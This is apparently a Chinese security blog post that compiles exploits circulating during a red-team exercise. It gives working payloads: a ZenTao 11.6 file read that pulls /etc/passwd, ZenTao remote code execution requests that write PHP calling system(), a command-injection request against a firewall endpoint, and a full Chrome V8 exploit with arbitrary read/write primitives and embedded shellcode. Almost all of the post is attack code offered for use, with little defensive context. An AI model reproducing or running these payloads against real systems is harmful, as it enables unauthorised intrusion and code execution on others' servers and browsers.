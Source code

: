 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rFwH1yUfxLf9mfhoP_Sgdw)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJ7Nb9gLhNpkiadwD6kZZyuNKUzs5l1AGxuhYcEh3ySeQI8yibI1Z6chUw/640?wx_fmt=png)

近期在现场溯源太忙了![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJZ4I48iaBBS7pf93DKSydK3jLb187dS1qw3xVKRqeEKyZLFYJVlxdp1w/640?wx_fmt=png)两天没更，今天汇总下这几天的情况  

事件记录不全，太忙了，圈子里的最新动态反应不过来  

如果有遗漏的补在下一篇的汇总![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJZ8yKcmib7tl2EQtzBbnVaN71Nuib15EFGW8rnuFykoicGMe7xMUk9EQ6A/640?wx_fmt=png)

HVV 结束后会分享关于溯源反制的心得  

进入主题  

**0x01 禅道 11.6 任意文件读取漏洞**

```
http://127.0.0.1/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd
```

**0x02 禅道 11.6 远程代码执行漏洞  
**

**Payload-1**

```
## 执行phpinfo()
http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=1111

POST data：fileContent=<?php phpinfo(); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJoXnQ6ibcWKFxA5U7JzgkNlWq66ZxPU64eyLveTnwE7XWu8q4Jc2ftsQ/640?wx_fmt=png)

```
## 执行命令
http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=2222

POST data: fileContent=<?php system('whoami'); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJX97WdbwzI3uGf3tN6QyQEVkqdpCjqNT7o6np7k73zLJy1Eb9f4gV8g/640?wx_fmt=png)

**Payload-2**

```
## 执行phpinfo()
http://127.0.0.1/zentaopms/www/api-getModel-api-getMethod-filePath=1111/1

POST data：fileContent=<?php phpinfo(); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJr7cbRXZ9nTDVn7qWXN5Mt7UbaJSyvPBsJiab9wRUNibic7ria7V44kL4cg/640?wx_fmt=png)

```
## 执行命令
http://127.0.0.1/zentaopms/www/api-getModel-api-getMethod-filePath=2222/2

POST data: fileContent=<?php system('whoami'); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJPwVd7SqqHQQvnAiawQYOibmExz5tsaCYqrKWuUyN9Gs2ZUmrQE2g6ic6w/640?wx_fmt=png)

**0x03 某安信 NS-NGFW 网康防火墙前台 RCE 漏洞**  

```
## 漏洞位置
http://xx.xx.xx.xx/directdata/direct/router
```

```
## Payload

Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15(KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 155
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource",
    "method": "deleteImage",
    "data":[{
      "data":["/var/www/html/b.txt;echo'fa3a6469'>/var/www/html/fa3a6.txt"]
    }],
    "type": "rpc",
    "tid": 17
}
```

**0x03 Windows Chrome 0day 漏洞**

```
## exp.html
<!DOCTYPE html>
<html lang="zh-cn">
  <head>
    <meta charset="uth-8">
    <title>Windows Chrome 0day</title>
  </head>
  <body>
    <script src="exp.js"></script>
  </body>
</html>
```

```
## exp.js
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
  x = (_arr[0] ^ 0) + 1;

  x = Math.abs(x);
  x -= 2147483647;
  x = Math.max(x, 0);

  x -= 1;
  if(x==-1) x = 0;

  var arr = new Array(x);
  arr.shift();
  var cor = [1.1, 1.2, 1.3];

  return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
```

运行条件：Google Chrome 必须在 --no-sandbox 的参数下才能触发。  

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJOyJF4USze5CQgr4pe1AxB7UGnYpXT1hho2b4rnH92hTRDgDdnACXGA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/ccX15AUPS2ztJ1b98vW1w8ExSr1NOQhJVBUJgFZnBNNUV1ZsFJ588NiauTF1ibP4OJAtsTWBI168tBQF0jsSfWtg/640?wx_fmt=jpeg)